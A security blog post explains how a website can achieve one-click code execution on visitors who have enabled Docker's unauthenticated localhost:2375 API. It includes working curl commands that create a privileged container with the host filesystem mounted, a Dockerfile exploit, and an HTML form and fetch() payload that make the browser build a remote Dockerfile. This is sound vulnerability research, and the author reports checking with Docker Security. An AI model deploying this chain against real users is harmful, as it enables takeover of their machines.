 ```yaml
---
layout: post
title: Developing a Docker 1-Click RCE chain for fun
description: >
  In this blog post we will explore the possibility of abusing Docker's API to achieve a 1-click RCE chain.
sitemap: false
hide_last_modified: true
---
```


## Developing a Docker 1-Click RCE chain for fun

## Preface
I'd like to preface this post by highlighting that this chain requires users to enable a specific setting in their Docker settings. Default installations are secure but if you are a regular Docker user then please make sure that you have this option disabled as otherwise you are vulnerable to RCE.

## Docker
When developing CTF challenges I often make use of Docker for its simple deployments and security guarantees. It was during some recent CTF-related endeavours that I happened upon the following configuration option for Docker which caught my eye.

![Docker API Setting](/assets/img/blog/docker_daemon_setting.png)

The configuration option is pretty simple; it will expose the "Docker API" on port 2375. Docker's official website provides a description of this API.

> The Docker Engine API is a RESTful API accessed by an HTTP client such as wget or curl, or the HTTP library which is part of most modern programming languages.

At the current time of writing the latest version is 1.47 and its endpoints are documented [here](https://docs.docker.com/reference/api/engine/version/v1.47/).

This poses the question; *why the strict warning?* Of course having access to this API allows you to create containers and execute code. The daemon also makes it possible to escalate your priveleges to the host machine. There have been many cases of attacks against exposed Docker APIs in the past but this is due to the API being made accessible to the outside world. Surely having it bound to localhost is fine?

## Abusing the API
As previously mentioned; attacks against exposed Docker APIs are pretty well defined. In fact, PayloadAllTheThings has an exploit script for exactly this case [here](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/CVE%20Exploits/Docker%20API%20RCE.py).

The aforementioned exploit script fetches all container IDs and then runs a specific command inside of them. This is good for a general proof of concept but leaves a lot unexplored. *What if there's no containers?* *How do we get root access in the host context?* *What if the network configuration doesn't allow a callback?*

### Creating Containers

We can answer the first question pretty easily. The Docker API defines an endpoint to create your own containers. Using this, we can simply create our own. To escalate our privileges then we can make use of the `HostConfig` option on the endpoint, particularly the `Binds` part which allows us to create containers with read-write references to the host filesystem.

```bash
curl -X POST -H "Content-Type: application/json" -d '{"image": "alpine","Tty":true,"OpenStdin":true,"Privileged":true,"AutoRemove":true,"HostConfig":{"NetworkMode":"host","Binds":["/:/mnt"]}}' http://localhost:2375/containers/create?name=shell
```

*To avoid mounting to WSL in Windows you can define a mount to `C:/` and access the Windows filesystem*

This will spawn a container which gives the full host filesystem in `/mnt` within the container and allows us to modify and read these files.

### Starting Containers
Once a container is created, we can start it using the `/containers/<name>/start` endpoint.

Since we passed a `?name=shell` parameter on the previous example we already defined our container name to be `shell` so we can use that.

```bash
curl -X POST http://localhost:2375/containers/shell/start
```

### Executing Commands
Above we have created a container with a mount to the host filesystem. To escalate our priveleges further we want to overwrite files on the host system.

The Docker API also provides a means of executing commands in our newly created container. Namely `/containers/shell/exec` which accepts a `Cmd` POST parameter and returns an `exec_id` and `/exec/<exec_id>/start` endpoint which allows us to run the command.

So we can use something like `jq` to parse the output of the first command, save it as an environment variable and use it in the second command to automate this.

```bash
exec_id=$(curl -s -X POST -H "Content-Type: application/json" -d '{"AttachStdin":false,"AttachStdout":true,"AttachStderr":true, "Tty":false, "Cmd":["mkdir", "/mnt/tmp/pwned"]}' http://localhost:2375/containers/shell/exec | jq -r .Id)
curl -X POST "http://localhost:2375/exec/$exec_id/start" -H "Content-Type: application/json" -d '{"Detach": false, "Tty": false}'
```

Since the command to execute is `mkdir /mnt/tmp/pwned` this will create a directory named `pwned` in our `/tmp` directory on the *host* filesystem.

## One-Click RCE
So at this point you should have a good idea of how we can exploit an exposed Docker API. This gave me an idea though; since this runs on `localhost:2375` is there a way for us to abuse this through a browser? That is, could we find a way of exploiting a user who visits our website and has this service running on their localhost?

### SOP
One of the main obstacles to this is Same-Origin Policy which prevents websites from interacting with endpoints of a different origin. There are some tricks to bypass this restriction; redirecting to a URL is usually not blocked. However, most of the important endpoints on the Docker API are POST.

Another common strategy is defining a HTML form with an action pointing to a remote resource and submitting it using javascript's `form.submit()` call. This would allow us to send a single POST request (along with URL parameters) to the API. The problem is that the API seems to be strictly `application/json` and the forms do not support that.

So, can we find an endpoint that will allow us to do everything we need with just a POST primitive?

### Image Builds
I tried a number of different endpoints until I eventually discovered `/build`

![build endpoint](/assets/img/blog/build_endpoint.png)

Interestingly, it accepts URL parameters. The most interesting here was `remote` which allows you to specify a remote URL for a `Dockerfile` and it will install and run the build. I built a HTML form on my website and tested this out to verify it works.

```html
<form action="http://localhost:2375/build?remote=https://<snip>/Dockerfile">
  <input id="btn" type="submit">
</form>
<script>document.getElementById("btn").click();</script>
```

Visiting the above page built my remote Dockerfile into an image.

### Abusing Image Builds
It turns out that image builds take place in their own short-lived container. Here, we can define what gets installed and run arbitrary commands. This gave me an idea for a sort of *"inception"* attack. Could we use the docker image build process to interact with the API *again* but this time using curl where we can set the `application/json` content type.

Well no... Because the build process wouldn't have access to `localhost` on the host machine. Here is where I noticed another optional parameter.

![networkmode parameter](/assets/img/blog/networkmode_option.png)

Aha! We can set the `networkmode` to `host` and this will allow us to interact with `localhost` on the host machine by referencing `host.docker.internal` host. This way we can create a Dockerfile which creates a mounted container to the host, runs commands to overwrite host files and all from them simply visiting our website which submits a form. 😱

## Putting it all Together
Below is my Dockerfile exploit.

```Dockerfile
FROM alpine:latest

RUN apk add --no-cache curl jq

RUN curl -X POST -H "Content-Type: application/json" -d '{"image": "alpine","Tty":true,"OpenStdin":true,"Privileged":true,"AutoRemove":true,"HostConfig":{"NetworkMode":"host","Binds":["/:/mnt"]}}' http://host.docker.internal:2375/containers/create?name=shell
RUN curl -X POST http://host.docker.internal:2375/containers/shell/start
RUN exec_id=$(curl -s -X POST -H "Content-Type: application/json" -d '{"AttachStdin":false,"AttachStdout":true,"AttachStderr":true, "Tty":false, "Cmd":["mkdir", "/mnt/tmp/pwned"]}' http://host.docker.internal:2375/containers/shell/exec | jq -r .Id) && curl -X POST "http://host.docker.internal:2375/exec/$exec_id/start" -H "Content-Type: application/json" -d '{"Detach": false, "Tty": false}'
```

Then all we need is a website to complete the POST to `http://localhost:2375/build?remote=http://<snip>/Dockerfile&networkmode=host` for it to execute. You can use the form above or simply run the follow javascript.

```javascript
fetch("http://127.0.0.1:2375/build?remote=https://<snip>/Dockerfile&networkmode=host", {method: "POST", mode: "no-cors"})
```

## Final Remarks
I think there is some more potential to expand from here. If we could build the image using GET then it'd make for a useful SSRF -> RCE gadget. This post was a bit rushed as I wanted a placeholder for my new blog so feel free to reach out to me on X ([@LooseSecurity](https://x.com/loosesecurity)) if you think there's more I could add to this.

I also wanted to point out that I did the *responsible thing* and checked with Docker Security before posting this and it is indeed an accepted risk that if you toggle this option then you are wide open to exploitation.